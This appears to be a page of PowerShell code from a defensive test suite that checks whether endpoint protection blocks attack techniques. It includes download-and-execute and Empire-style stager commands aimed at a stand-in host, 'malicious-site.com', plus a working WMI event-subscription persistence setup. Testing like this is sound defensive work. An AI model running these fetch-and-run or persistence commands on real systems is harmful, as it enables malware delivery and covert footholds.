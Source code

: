 ```powershell
$downloadCommand = "Invoke-WebRequest -Uri 'http://malicious-site.com/payload.ps1' -OutFile 'C:\temp\payload.ps1'; & 'C:\temp\payload.ps1'"
try {
    Invoke-Expression $downloadCommand
    Write-Host "❌ Download and execute succeeded" -ForegroundColor Red
}
catch {
    Write-Host "✅ Download and execute blocked" -ForegroundColor Green
}

# Test PowerShell Empire-style commands
$empireCommand = @"
`$client = New-Object System.Net.WebClient;
`$client.DownloadString('http://malicious-site.com/stager')
"@

try {
    Invoke-Expression $empireCommand
    Write-Host "❌ Empire-style command executed" -ForegroundColor Red
}
catch {
    Write-Host "✅ Empire-style command blocked" -ForegroundColor Green
}
```

### WMI Persistence Testing
```powershell
# Test WMI-based persistence detection
Write-Host "=== WMI PERSISTENCE TESTING ===" -ForegroundColor Cyan

$filterName = "SentinelTestFilter"
$consumerName = "SentinelTestConsumer"

try {
    # Create WMI Event Filter
    $filterQuery = "SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"
    $filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
        Name = $filterName
        EventNameSpace = "root\cimv2"
        QueryLanguage = "WQL"
        Query = $filterQuery
    }
    
    # Create WMI Event Consumer
    $consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
        Name = $consumerName
        CommandLineTemplate = "cmd.exe /c echo WMI_PERSISTENCE_TEST > C:\temp\wmi_test.txt"
    }
    
    # Create WMI Binding
    $binding = Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
        Filter = $filter
        Consumer = $consumer
    }
    
    Write-Host "❌ WMI persistence created successfully - SECURITY RISK!" -ForegroundColor Red
    
    # Clean up
    Remove-WmiObject -Path $binding.__PATH
    Remove-WmiObject -Path $consumer.__PATH  
    Remove-WmiObject -Path $filter.__PATH
```